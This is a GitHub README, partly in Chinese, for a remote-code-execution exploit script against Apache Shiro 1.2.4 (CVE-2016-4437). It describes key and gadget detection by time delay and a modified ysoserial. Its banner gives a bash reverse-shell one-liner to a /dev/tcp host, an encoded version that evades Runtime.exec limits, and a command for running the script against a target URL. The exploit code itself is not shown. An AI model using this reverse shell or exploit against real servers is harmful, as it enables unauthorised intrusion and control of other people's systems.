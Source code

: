 # Readme
Apache Shiro 


<details>
<summary>Shiro 1.2.4 [点击展开] </summary>
  
使用延时判断key和gadget，目标不出网也可以检测是否存在漏洞  
修改了ysoserial支持延时命令，不要使用原版的ysoserial  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

Linux系统使用base64编码发送命令，Windows发送默认字符  
利用示例：  
![images](https://github.com/sairson/NetworkExpLibrary/blob/main/shiro/shiro-1.2.4_rce/image/1.gif)
![images](https://github.com/sairson/NetworkExpLibrary/blob/main/shiro/shiro-1.2.4_rce/image/2.gif)

</details>



